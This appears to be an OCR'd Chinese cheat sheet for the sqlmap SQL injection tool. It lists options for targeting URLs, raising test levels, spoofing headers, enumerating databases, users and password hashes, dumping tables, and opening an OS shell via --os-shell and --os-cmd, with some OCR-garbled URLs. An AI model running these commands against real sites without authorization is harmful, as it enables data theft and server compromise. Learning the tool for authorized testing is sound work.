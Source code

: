 # 设置目标URL

参数：-u /--url 最基本格式 sqlmap -u "http: //www. target.com/index. php?id=1" 
参数：-m 从文本中获取多个目标扫描，但是每一行只能有一个url。 基本格式：sqlmap -m urllist. txt 
参数：-r 从文件中加载HTTP请求，这样的话 就不需要在去设定cookie, POST数据...... 基本格式: sqlmap -r 1.txt

# 设置回显等级

参数：
-v 默认为1: 
0、只显示python错误以及严重的信息。 
1、 同时显示基本信息和警告信息。（默认等级） 
2、 同时显示debug信息。 
3、 同时显示注入的payload。
4、 同时显示HTTP请求。 
5、 同时显示HTTP响应头。 
6、 同时显示HTTP响应页面。

# 设定探测等级

参数：--level (sqlmap -r 情况下) 共有五个等级，默认为1, sqlmap使用的payload可以在xml/payloads.xml中看 到，自己也可以根据相应的格式添加自己的payload 
level>=2的时候就会测试HTTP Cookie 
level>=3的时候就会测试HTTP User-Agent/Referer头 
level=5的时候会测试HTTP Host 
基本格式：sqlmap -r 1.txt --level=3

# 设置HTTP数据包相关参数
**参数：--data** 此参数是把data后面的数据以POST方式提交，当参数是POST提交的时候,但是你有没有抓取 数据包,可以用URL+需要检查的参数。 
基本格式：sqlmap -u "http://www.target.com/vuln.php" --data="id=1" 
**参数：--cookie** 当web需要登录的时候，需要我们抓包获取cookie参数，然后复制出来，加到--cookie参数 中。
基本格式：sqlmap -u "http://www.target.com/vuln.php" --data="id=1" --cookie="Cookie: Hm_lvt6910067,1546929561,1547001094,1547024662;PHPSESSID=o64fbvo316lg59njufl2 gfutm4;"
**参数：--user-agent** 默认情况下sqlmap的HTTP请求头中的User-Agent值是：sqlmap/1.0-dev- xxxxxxxxx(http://sqlmap.org) 这个时候可以手动指定伪造一个User-Agent. 
基本格式：sqlmap -u "http://www.target.com" --level 3 --user-agent="aaaaaa" -dbs 
**参数：-random-agent** 会从/usr/share/sqlmap/data/txt中随机产生User-Agent头。 
基本格式：sqlmap -u "http://www.target.com" --level 3 -random-agent -dbs sqlmap检查uesr-agent中的注入点，level>=3才会去检查user-agent头是否存在注入漏洞
**参数：-referer** sqlmap可以在请求中伪造HTTP中的referer。当--level参数设定＞=3时,会尝试进行referer注 入。基本格式： sqlmap -u "http:/A/vww.target.com/?id=1" --referer="http://www.baidu.com" 
**参数：--delay** 可以设定两个http请求间的延迟，设定为1的时候是1秒，默认是没有延迟的。 
**参数：--timeout** 可以设定一个http请求超过多少秒判定为超时，默认是30秒。
# 指定测试参数
**参数：-p** sqlmap默认会测试所有的GET和POST参数，当-level的值大于等于2的时候也 会测试HTTP Cookie头的值，当大于等于3的时候也会测试User- Agents HTTP Referer头的值。
基本格式：sqlmap -u "http:/A/vww.target.com/?id=1" -p "id,user-angent" 
**参数：--skip** 在使用--level时，级别很大的时候，但是有些参数不能去测试，那么可以使用--skip参数跳过 
基本格式：sqlmap -u "http:/A/vww.target.com/?id=1" --skip"user-agent,referer"
# 设定探测风险等级
参数：--risk 共有三个风险等级，
1-3： 默认是1会测试大部分的测试语句，
2会增加基于时间的测试语句，
3会增加OR语句的SQL注入测试。 注意：在有些时候，例如在UPDATE, DELETE的语句中，注入一个OR的测试语句, 可能导致更新的 整个表，可能造成很大的风险。 
基本格式：sqlmap -u "http:/A/vww.target.com/?id=1" --risk=2
# 查询参数
--dbs(查看数据库),
--users(查看所有用户), 
--passwords(查看所有用户密码) 
--technique 指定使用哪种注入类型(B , E , U , T , S) 
--current-db 当前数据库 
--current-user 当前用户 
--privileges 权限 -D database_name 
--tables 获取表 -D database_name -T table_name 
--columns 获取列 -D database name -T table name -C column_1,column_2 --dump 获取字段内容
# 使用shell命令
参数:--os-shell 反弹交互shell 
前提：需要网站的物理路径，其次是需要有FILE读写权限。 
基本格式 : sqlmap -r "C:\sqlmap\request.txt" -p "id" --dbms mysql --os-shell 选择后端语言 接下来指定网站可写目录： 选择网站路径 : 2为自定义网站路径 d:/phpstudy/www 
参数:--os-cmd=系统命令 执行系统命令
--batch 全自动 
--start= 开始条数(导出数据时开始条数) 
--stop= 结束条数(导出数据时结束条数)
--dump 导出数据 
--dump-all 导出所有数据
--purge-output(--purge) 清空缓存目录
